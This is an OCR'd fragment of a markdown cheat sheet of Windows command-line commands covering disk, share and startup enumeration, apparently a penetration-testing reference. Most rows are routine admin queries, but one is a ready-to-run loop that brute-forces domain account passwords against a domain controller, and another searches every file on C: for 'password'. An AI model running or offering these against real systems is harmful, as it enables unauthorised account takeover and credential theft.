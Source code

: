 |wmic volume|Local storage volume management.|
|wmic logicaldisk where drivetype=3 get name, freespace, systemname, filesystem, size, volumeserialnumber|Local storage device management.|
|net share|displays information about all of the resources that are shared on the local computer.|
|wmic share|Shared resource management.|
|net use \\\\`ip`\ipc$ `password` /user:`username`|Connects a computer to or disconnects a computer from a shared resource, or displays information about computer connections. |
|@FOR /F %n in (users.txt) DO @FOR /F %p in (pass.txt) DO @net use \\\\DomainController\IPC$ /user:<DomainName>\%n %p 1>NUL 2>&1 && @echo [*] %n:%p &&|Bruteforce Windows accounts|
|FOR /F %f in ('dir /b /s C:\') do find /I "password" %f|Search `password` in file or files from C:\|




## Startup and Shutdown

|**Command**|**Description**|
|:----------|:--------------|
|wmic startup|Management of commands that run automatically when users log onto the computer system.|

# Links

1. [Windows Internals Book](https://technet.microsoft.com/en-us/sysinternals/bb963901.aspx).
